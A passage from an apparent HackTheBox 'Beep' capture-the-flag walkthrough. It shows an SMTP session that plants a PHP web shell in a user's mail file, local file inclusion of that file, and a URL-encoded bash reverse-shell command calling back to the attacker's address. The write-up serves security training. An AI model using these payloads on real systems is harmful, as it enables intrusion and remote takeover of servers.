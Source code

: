 I grep only user can execute shell

```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

To create a backdoor, go first with SMTP service. I access to it and sent a mail contain php backdoor code to user `asterisk`.

```
┌──(Hades㉿10.10.14.5)-[2.1:32.9]~/walkthrough/hackthebox/beep
└─$ nc -nC 10.10.10.7 25
220 beep.localdomain ESMTP Postfix
vrfy asterisk@localhost
252 2.0.0 asterisk@localhost
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "asterisk"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as A3254D92FD
quit
221 2.0.0 Bye
```

After sent a mail, I using LFI go to asterisk's mail file at `/var/mail/asterisk`

![](images/7.png)

Get reverse shell

Url encode using `hURL` to encode payload.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ hURL -U "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.5%2F443%200%3E%261%27
```
